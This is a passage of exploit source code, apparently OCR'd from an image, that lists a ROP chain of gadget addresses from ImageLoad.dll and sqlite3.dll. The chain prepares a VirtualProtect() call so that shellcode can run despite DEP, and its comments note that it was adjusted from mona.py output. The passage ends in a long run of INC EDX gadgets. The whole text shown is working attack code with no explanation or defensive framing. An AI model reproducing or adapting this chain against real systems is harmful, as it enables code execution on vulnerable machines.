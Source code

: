    rop_gadgets = [
	  # Generate value of 201 in EAX
	  0x10015442,  # POP EAX # RETN [ImageLoad.dll]
	  0xFFFFFDFF,  # Value of '-201'
	  0x100231d1,  # NEG EAX # RETN [ImageLoad.dll]
	
	  # Put EAX into EBX (other unneccessary stuff comes with this gadget as well...)
	  0x1001da09,  # ADD EBX,EAX # MOV EAX,DWORD PTR SS:[ESP+C] # INC DWORD PTR DS:[EAX] # RETN [ImageLoad.dll]
	  
	  # Carry on with the ROP as generated by mona.py
	  0x10015442,  # POP EAX # RETN [ImageLoad.dll] 
      0x61c832d0,  # ptr to &VirtualProtect() [IAT sqlite3.dll]
	
	  # Compensate for the ADD EBX,EAX gadget above, jump over 1 address, which is a dummy writeable location
	  # used solely by this the remaining part of the above gadget (it doesn't really do anything for us)
	  0x1001281a,  # ADD ESP,4 # RETN [ImageLoad.dll]
	  0x61c73281,  # &Writable location [sqlite3.dll]
	
	  # And carry on further as generated by mona.py
	  0x1002248c,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ImageLoad.dll] 
      0x61c18d81,  # XCHG EAX,EDI # RETN [sqlite3.dll]
      0x1001d626,  # XOR ESI,ESI # RETN [ImageLoad.dll] 
      0x10021a3e,  # ADD ESI,EDI # RETN 0x00 [ImageLoad.dll] 
      0x10013ad6,  # POP EBP # RETN [ImageLoad.dll] 
      0x61c227fa,  # & push esp # ret  [sqlite3.dll]
      0x10022c4c,  # XOR EDX,EDX # RETN [ImageLoad.dll] 
	  
	  # Now bunch of ugly increments... may need to look for something nicer, but hey - it works!
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 